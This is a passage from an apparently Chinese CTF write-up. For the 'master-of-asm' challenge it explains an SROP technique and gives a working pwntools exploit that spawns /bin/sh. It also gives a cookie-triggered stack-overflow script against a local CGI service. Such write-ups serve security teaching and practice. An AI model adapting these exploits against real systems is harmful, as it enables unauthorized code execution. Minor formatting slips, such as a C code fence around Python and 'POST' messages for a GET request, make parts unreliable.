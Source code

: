 ```python
sh.interactive()
```

# master-of-asm

题目提供了`syscall`指令与`/bin/sh`字符串的地址，并且系统调用号可以通过`read`函数控制，直接使用`srop`即可，需要弄清楚执行`sigreturn`时，栈上就是被伪造好的`Signal Frame`，并且`uc_flags`由于用不着因此被其余值填充也不影响。

![image-20231001225845931](D:\ctf-competition\2023华为杯\2023华为WriteUp\image-20231001225845931.png)

## exp

```c
from pwn import *
#0x0000000000401019 : syscall
context.arch = 'amd64'
syscall = 0x40102D 
sh = process("a.out")
attach(sh,"b*0x40101B")
raw_input()
sh.recvuntil("Hello Pwn")
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = 0x40200A
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = 0x40200A
sigframe.rip = syscall
payload = p64(0x40101B) +'a'* 8+ str(sigframe)
raw_input()
sh.send(payload)
payload = p64(0x40102D) + 'a'*7
raw_input()
sh.send(payload)
sh.interactive()
```

# APACHE-CGI-PWN

这题只要设置了`cookie`就可以进行栈溢出的利用了，这里需要注意的时`cookie`名许需要设置为`ROOT-GOD`

## exp

```python
#coding:utf-8
from pwn import *
import requests

def pwn1():
    cookies = {
    'ROOT-GOD': "Every king's blood will end with a sword",
    }
    url='http://127.0.0.1:10086/getcookie.cgi'
    r=requests.get(url=url,cookies=cookies)
    print(r.text)
    if r.status_code == 200:
        print('POST请求成功！')
        print('响应内容：', r.text)
    else:
        print('POST请求失败。状态码：', r.status_code)

pwn1()
```